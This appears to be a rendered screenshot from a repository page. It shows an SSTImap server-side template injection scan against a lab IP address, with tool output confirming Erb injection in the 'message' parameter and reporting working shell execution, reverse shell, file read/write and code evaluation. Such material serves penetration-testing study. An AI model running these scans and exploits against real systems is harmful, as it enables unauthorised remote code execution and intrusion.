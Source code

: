 `python3 /opt/SSTImap/sstimap.py -u "https://192.168.56.133:3000/search?query=TEST&message=*"`:
```
    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.2
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: https://192.168.56.133:3000/search?query=TEST&message=*
[*] Testing if Query parameter 'message' is injectable
[*] Cheetah plugin is testing rendering with tag '*'
[*] Cheetah plugin is testing }* code context escape with 6 variations
[*] Cheetah plugin is testing ]* code context escape with 6 variations
[*] Cheetah plugin is testing )* code context escape with 6 variations
[*] Cheetah plugin is testing blind injection
[*] Cheetah plugin is testing }* code context escape with 6 variations
[*] Cheetah plugin is testing ]* code context escape with 6 variations
[*] Cheetah plugin is testing )* code context escape with 6 variations
[*] Twig plugin is testing rendering with tag '*'
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Twig plugin is testing blind injection
[*] Twig plugin is testing }}*{{1 code context escape with 6 variations
[*] Twig plugin is testing  %}* code context escape with 6 variations
[*] Dust plugin is testing rendering
[*] Dust plugin is testing blind injection
[*] Freemarker plugin is testing rendering with tag '*'
[*] Freemarker plugin is testing }* code context escape with 6 variations
[*] Freemarker plugin is testing blind injection
[*] Freemarker plugin is testing }* code context escape with 6 variations
[*] Erb plugin is testing rendering with tag '*'
[+] Erb plugin has confirmed injection with tag '*' ←
[+] SSTImap identified the following injection point:

  Query parameter: message ←
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok ←
    Bind and reverse shell: ok ←
    File write: ok ←
    File read: ok ←
    Code evaluation: ok, ruby code ←

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
```